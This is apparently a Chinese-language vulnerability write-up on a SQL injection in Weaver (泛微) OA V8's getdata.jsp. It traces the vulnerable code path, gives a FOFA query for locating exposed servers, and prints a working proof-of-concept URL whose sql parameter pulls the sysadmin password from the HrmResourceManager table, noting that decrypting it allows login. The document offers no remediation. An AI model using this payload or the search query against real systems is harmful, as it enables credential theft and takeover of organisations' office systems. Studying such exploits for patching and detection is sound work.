 # 泛微OA getdata.jsp SQL注入漏洞

## 漏洞描述

泛微OA V8 存在SQL注入漏洞，攻击者可以通过漏洞获取管理员权限和服务器权限

## 漏洞影响

<a-checkbox checked>泛微OA V8</a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-协同办公OA"</a-checkbox></br>

## 漏洞复现

在getdata.jsp中，直接将request对象交给

**weaver.hrm.common.AjaxManager.getData(HttpServletRequest, ServletContext) :** 

方法处理



![img](../../../.vuepress/public/img/fanwei-17.png)



在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法



![img](../../../.vuepress/public/img/fanwei-18.png)



Proc方法4个参数，(“空字符串”,”cmd参数值”,request对象，serverContext对象)

在proc方法中，对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中

![img](../../../.vuepress/public/img/fanwei-19.png)





POC

```plain
http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```

查询HrmResourceManager表中的password字段，页面中返回了数据库第一条记录的值（sysadmin用户的password）

![img](../../../.vuepress/public/img/fanwei-20.png)



解密后即可登录系统

![img](../../../.vuepress/public/img/fanwei-21.png)